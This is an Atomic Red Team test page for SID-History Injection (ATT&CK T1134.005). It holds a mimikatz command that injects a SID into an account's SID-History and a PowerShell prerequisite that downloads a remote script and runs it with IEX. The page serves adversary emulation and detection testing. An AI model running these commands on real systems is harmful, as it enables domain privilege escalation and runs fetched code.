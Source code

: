 # T1134.005 - Access Token Manipulation: SID-History Injection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1134/005)
<blockquote>Adversaries may use SID-History Injection to escalate privileges and bypass access controls. The Windows security identifier (SID) is a unique value that identifies a user or group account. SIDs are used by Windows security in both security descriptors and access tokens. (Citation: Microsoft SID) An account can hold additional SIDs in the SID-History Active Directory attribute (Citation: Microsoft SID-History Attribute), allowing inter-operable account migration between domains (e.g., all values in SID-History are included in access tokens).

With Domain Administrator (or equivalent) rights, harvested or well-known SID values (Citation: Microsoft Well Known SIDs Jun 2017) may be inserted into SID-History to enable impersonation of arbitrary users/groups such as Enterprise Administrators. This manipulation may result in elevated access to local resources and/or access to otherwise inaccessible domains via lateral movement techniques such as [Remote Services](https://attack.mitre.org/techniques/T1021), [SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002), or [Windows Remote Management](https://attack.mitre.org/techniques/T1021/006).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Injection SID-History with mimikatz](#atomic-test-1---injection-sid-history-with-mimikatz)


<br/>

## Atomic Test #1 - Injection SID-History with mimikatz
Adversaries may use SID-History Injection to escalate privileges and bypass access controls. Must be run on domain controller

**Supported Platforms:** Windows


**auto_generated_guid:** 6bef32e5-9456-4072-8f14-35566fb85401





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| sid_to_inject | SID to inject into sidhistory | String | S-1-5-21-1004336348-1177238915-682003330-1134|
| sam_account_name | Target account to modify | String | $env:username|
| mimikatz_path | Mimikatz windows executable | Path | $env:TEMP&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
#{mimikatz_path} "privilege::debug" "sid::patch" "sid::add /sid:#{sid_to_inject} /sam:#{sam_account_name}" "exit"
```

#### Cleanup Commands:
```cmd
#{mimikatz_path} "sid::clear /sam:#{sam_account_name}" "exit"
```



#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
